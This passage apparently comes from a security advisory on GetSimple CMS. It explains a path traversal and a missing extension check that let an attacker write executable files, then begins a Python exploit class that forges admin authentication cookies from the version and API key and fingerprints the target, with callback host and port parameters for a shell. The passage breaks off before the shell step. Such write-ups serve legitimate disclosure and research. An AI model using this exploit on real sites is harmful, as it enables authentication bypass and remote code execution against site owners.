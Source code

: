The vulnerability is a path traversal allowing to write outside the jailed themes directory root. However, we don’t even need it due to the .htaccess assumption, we can write into the same directory to gain a shell.

The other issue here is that there isn’t another check on the extension before saving the file. The file is being saved with the assumption that the parameter content is safe. This allows the creation of web accessible and executable files with arbitrary content.

**Exploit**

```python
import re
import sys
import socket
import hashlib
import requests
import telnetlib
from threading import Thread
from xml.etree import ElementTree

class gscms_pwner:

    def __init__(self, target, path, username, cb_host, cb_port):
        self.target  = target
        self.path    = path
        self.un      = username
        self.cb_host = cb_host
        self.cb_port = cb_port
        self.version = None
        self.apikey  = None

    def set_headers(self):
        self.h = {
            'Content-Type':'application/x-www-form-urlencoded',
            'Cookie': self.cookies
        }

    def set_cookies(self):
        self.cookies = "GS_ADMIN_USERNAME=%s;%s=%s" % (self.un, self.get_cookie_name(), self.get_cookie_value())
        self.set_headers()

    def get_cookie_name(self):
        cn = "getsimple_cookie_%s%s" % (self.version.replace(".", ""), self.apikey)
        sha1 = hashlib.sha1()
        sha1.update(cn)
        return sha1.hexdigest()

    def get_cookie_value(self):
        cv = "%s%s" % (self.un, self.apikey)
        sha1 = hashlib.sha1()
        sha1.update(cv)
        return sha1.hexdigest()

    def get_version(self):
        print "(+) fingerprinting the targets version"
        r = requests.get("http://%s%sadmin/index.php" % (self.target, self.path))
        match = re.search("jquery.getsimple.js\?v=(.*)\"", r.text)
        if match:
            self.version = match.group(1)
            print "(+) found version: %s" % self.version
            return True
        return False

    def check_htaccess(self):
```